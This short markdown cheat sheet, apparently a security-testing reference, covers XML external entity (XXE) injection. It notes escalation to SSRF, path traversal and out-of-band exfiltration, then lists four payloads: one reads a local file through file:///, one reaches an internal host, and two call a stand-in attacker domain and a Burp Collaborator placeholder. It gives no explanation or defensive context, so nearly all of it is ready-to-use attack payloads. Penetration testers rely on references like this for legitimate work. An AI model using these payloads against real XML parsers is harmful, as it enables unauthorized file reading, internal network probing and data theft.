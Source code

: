 # XXE

XXE can be escalated to SSRF, or Path-Traversal, data out-of-band, data via error messages

## Payload
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```
